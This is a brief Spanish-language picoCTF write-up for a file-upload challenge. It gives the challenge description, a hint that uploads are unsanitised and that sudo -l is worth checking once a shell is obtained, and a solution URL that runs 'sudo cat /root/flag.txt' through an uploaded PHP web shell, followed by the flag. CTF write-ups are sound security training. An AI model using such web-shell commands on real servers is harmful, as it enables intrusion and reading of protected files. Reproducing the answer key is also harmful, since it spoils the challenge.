 #### - **Descripción** 
Un desarrollador ha añadido la función de subir fotos de perfil a un sitio web. Sin embargo, la implementación presenta fallas, lo que representa una oportunidad para ti. Tu misión, si decides aceptarla, es navegar a la página web proporcionada y localizar el área de subida de archivos. Tu objetivo final es encontrar la bandera oculta en el `/root`directorio.

Habrá detalles adicionales disponibles después de lanzar su instancia de desafío.
#### Pista 
La carga del archivo no fue desinfectada

Siempre que obtenga un shell en una máquina remota, verifique`sudo -l`

#### - **Solución** 
http://standard-pizzas.picoctf.net:49474/uploads/sholl.php?cmd=sudo%20cat%20/root/flag.txt

picoCTF{wh47_c4n_u_d0_wPHP_80eedb7d}
